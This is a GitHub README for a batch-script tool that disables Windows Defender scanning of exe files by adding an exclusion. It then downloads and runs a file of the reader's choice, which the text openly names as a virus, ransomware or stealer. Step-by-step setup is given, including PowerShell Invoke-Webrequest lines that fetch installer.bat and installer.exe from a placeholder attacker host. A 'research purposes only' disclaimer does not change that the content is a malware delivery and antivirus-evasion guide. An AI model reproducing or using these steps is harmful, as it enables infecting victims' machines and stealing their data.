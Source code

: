 # Windows-Defender-Bypass
Fully undetectable bypass for Windows Defender. Works by adding an exclusion for exe files, downloading your file and removing the exclusion after running the file.
# This project is intended for research purposes only.
# Setup
If you already have a webserver, skip to step 2.  
  
1, To start setting up the bypass, you will need a webserver, you can create one by heading over to https://replit.com and creating an HTML, CSS & JS repl, after that, you will need to run the repl. It should then open up a website preview and give you the webserver URL above it.  
  
2, Upload the file you wish to execute (virus, ransomware, stealer, etc) to the webserver and rename the file to installer.exe.  
  
3, Edit line 31 in the installer.bat file:  
```bat
Powershell -Command "Invoke-Webrequest 'https://YOURSITE.COM/installer.exe' -OutFile installer.exe"
```
Change https://YOURSITE.COM/installer.exe to your webserver URL. If you use replit, it should look like this: https://replname.wnetmc.repl.co/installer.exe  
  
4, Upload the installer.bat to your webserver.
5, Edit line 4 in the main.bat file:
```bat
Powershell -Command "Invoke-Webrequest 'https://YOURSITE.COM/installer.bat' -OutFile installer.bat"
```
Replace https://YOURSITE.COM/installer.bat with your webserver URL and the path to the installer.bat file. If you use replit, it should look like this: https://replname.wnetmc.repl.co/installer.bat  
  
6, Done. The file you would use to bypass windows defender would be main.bat. You can convert it to an executable but this will raise the number of detections. If this helped you, make sure to star this repository (;
